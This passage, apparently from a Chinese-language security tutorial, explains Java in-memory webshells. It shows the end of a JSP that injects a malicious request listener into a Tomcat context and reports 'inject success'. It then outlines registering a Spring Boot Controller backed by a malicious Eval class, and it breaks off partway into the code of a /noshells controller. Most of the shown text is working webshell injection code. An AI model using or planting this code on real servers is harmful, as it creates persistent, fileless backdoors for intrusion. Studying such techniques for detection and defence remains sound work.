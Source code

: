 ```jsp
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    PrintWriter out= request.getResponse().getWriter();
                    out.println(output);
                    out.flush();
                    out.close();
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {

        }
    };
    standardContext.addApplicationEventListener(listener);
    response.getWriter().write("inject success");
%>
```

### 2）、基于动态添加框架组件的内存马实现

这里说到的框架有很多，spring、springboot、weblogic等

这边主要说下springboot框架的组件内存马的实现：动态注册Controller来实现内存马：

springboot在处理请求的时候的主要逻辑是再Controller中进行的，所以我们可以代码层次注册一个Controller来实现内存马：

动态注册一个Controller主要思路：

- 1、从springboot中获取上下文context
- 2、定义好要注入Controller的路径以及处理请求使用的逻辑（方法），这里具体实现是使用一个恶意类Eval.class，通过反射获取其实现的一个恶意方法。
- 3、利用mappingHandlerMapping.registerMapping（）方法将其注入到处理中去

下面通过一个spring boot2.52版本的的项目测试，添加一个Controller，通过注解类完成路径是**/noshell**，在其中完成我们动态注册一个新的Controller来实现内存马的目的：

```java
package com.example.myspring.controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import java.lang.reflect.Method;


@Controller
public class NoshellController {

    @ResponseBody
    @RequestMapping("/noshells")
```